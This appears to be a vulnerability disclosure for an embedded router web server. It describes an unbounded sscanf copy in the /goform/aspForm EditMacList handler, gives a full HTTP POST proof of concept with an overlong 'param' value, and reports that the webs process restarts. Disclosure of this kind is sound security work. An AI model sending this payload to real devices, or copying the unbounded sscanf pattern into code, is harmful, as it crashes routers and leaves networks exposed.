



## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `EditMacList`, the program will go into the following handling function.




First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v12`, `v14`, `v15`, `v13`  on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.



## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EditMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;;;
```

## Result

the process `webs` restart


